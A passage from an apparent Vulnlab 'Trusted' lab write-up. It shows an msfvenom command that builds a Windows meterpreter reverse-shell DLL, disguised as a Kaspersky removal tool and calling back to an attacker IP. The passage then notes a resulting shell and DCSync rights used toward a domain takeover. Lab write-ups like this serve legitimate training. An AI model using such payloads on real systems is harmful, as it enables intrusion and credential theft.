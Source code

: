 ```
root@falcon:~/Vulnlab-Falcon/Chains/Trusted# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.4.157 LPORT=1234 -f dll > KasperskyRemovalToolENU.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 9216 bytes
```

After executing the EXE, we got a shell as `cpowers`.


<img src="attachments/89e518ef88d7bcc710e364a6acb98493.png" />

### Privilege Escalation (TrustedDC) + Root Domain Takeover 

Cpowers is a domain admin for `lab.trusted.vl` and also has DCSync rights over the `lab.trusted.vl` domain.

<img src="attachments/6621bb755fbac575252ce2693b68d5fc.png" />
<img src="attachments/5d81265c543f1a9affbd0fe9579ea4b2.png" />
